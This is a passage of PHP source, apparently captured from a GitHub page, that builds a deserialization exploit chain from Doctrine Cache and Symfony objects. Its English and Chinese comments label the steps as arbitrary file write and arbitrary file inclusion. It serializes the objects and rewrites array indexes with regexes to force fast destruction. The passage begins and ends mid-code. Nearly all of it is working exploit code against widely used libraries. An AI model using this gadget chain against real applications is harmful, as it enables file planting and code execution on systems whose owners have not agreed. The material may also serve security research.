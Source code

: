 ```plain
}

/* File inclusion objects 文件包含对象*/
namespace Symfony\Component\Cache\Adapter
{
    class PhpArrayAdapter
    {
        public $file = "/tmp/aaa.mocksess"; // fixed at the time
    }
}


namespace PopChain
{
use Doctrine\Common\Cache\Psr6\CacheAdapter;
use Doctrine\Common\Cache\Psr6\TypedCacheItem;
use Symfony\Component\HttpFoundation\Session\Storage\MockFileSessionStorage;
use Symfony\Component\HttpFoundation\Session\Storage\MetadataBag;
use Symfony\Component\Cache\Adapter\PhpArrayAdapter;


/* CacheItem is compatible with PHP 7.*, TypedCacheItem is compatible with PHP 8.* PHP 版本差异选择*/
if (preg_match('/^7/', phpversion()))
{
    $firstCacheItem = new CacheItem();
    $secondCacheItem = new CacheItem();
} 
else 
{
    $firstCacheItem = new TypedCacheItem();
    $secondCacheItem = new TypedCacheItem();
}

/* File write 任意文件写入*/
$obj_write = new CacheAdapter();
$obj_write->deferredItems = [$firstCacheItem];
$mockSessionStorage = new MockFileSessionStorage();
$mockSessionStorage->metadataBag = new MetadataBag();
$obj_write->cache =$mockSessionStorage;

/* File inclusion 任意文件包含*/
$obj_include = new CacheAdapter();
$obj_include->cache = new PhpArrayAdapter();
$secondCacheItem->expiry = 0; // mandatory to go to another branch from CacheAdapter __destruct
$obj_include->deferredItems = [$secondCacheItem];


$obj = [1000 => $obj_write, 1001 => 1, 2000 => $obj_include, 2001 => 1];

$serialized_string = serialize($obj);
// Setting the indexes for fast destruct 设置析构的索引
$find_write = (
    '#i:(' .
        1001 . '|' .
        (1001 + 1) .
    ');#'
);
$replace_write = 'i:' . 1000 . ';';
$serialized_string2 = preg_replace($find_write, $replace_write, $serialized_string);
$find_include = (
    '#i:(' .
        2001 . '|' .
        (2001 + 1) .
```